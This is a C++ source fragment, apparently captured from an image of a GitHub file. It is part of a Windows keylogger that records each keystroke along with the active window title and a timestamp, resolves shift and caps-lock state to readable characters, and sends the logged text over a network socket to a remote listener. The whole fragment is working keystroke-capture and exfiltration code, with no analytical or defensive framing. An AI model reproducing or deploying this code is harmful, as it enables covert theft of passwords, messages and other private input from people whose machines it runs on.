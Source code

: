 ```cpp
		{
			strcpy_s(lastwindow, sizeof(lastwindow), window_title);

			// get time
			time_t t = time(NULL);
			struct tm tm;
			localtime_s(&tm, &t);
			char s[64];
			strftime(s, sizeof(s), "%c", &tm);

			output << "\n\n[Window: " << window_title << " - at " << s << "] ";
		}
	}

#if FORMAT == 10
	output << '[' << key_stroke << ']';
#elif FORMAT == 16
	output << std::hex << "[" << key_stroke << ']';
#else
	if (keyname.find(key_stroke) != keyname.end())
	{
		output << keyname.at(key_stroke);
	}
	else
	{
		char key;
		// check caps lock
		bool lowercase = ((GetKeyState(VK_CAPITAL) & 0x0001) != 0);

		// check shift key
		if ((GetKeyState(VK_SHIFT) & 0x1000) != 0 || (GetKeyState(VK_LSHIFT) & 0x1000) != 0
			|| (GetKeyState(VK_RSHIFT) & 0x1000) != 0)
		{
			lowercase = !lowercase;
		}

		// map virtual key according to keyboard layout
		key = MapVirtualKeyExA(key_stroke, MAPVK_VK_TO_CHAR, layout);

		// tolower converts it to lowercase properly
		if (!lowercase)
		{
			key = tolower(key);
		}
		output << char(key);
	}
#endif
	// instead of opening and closing file handlers every time, keep file open and flush.

	std::cout << output.str();

	std::string sendbufstr = output.str();
	const char* sendbuf = sendbufstr.c_str();
	// Send an initial buffer
	iResult = send(ConnectSocket, sendbuf, (int)strlen(sendbuf), 0);
	if (iResult == SOCKET_ERROR) {
		printf("\n[ERROR] send failed with error: %d\n", WSAGetLastError());
		closesocket(ConnectSocket);
		WSACleanup();
		printf("\n[WARING] The server has stopped listening on the port! The program will exit.\n");
		exit(0);
	}
```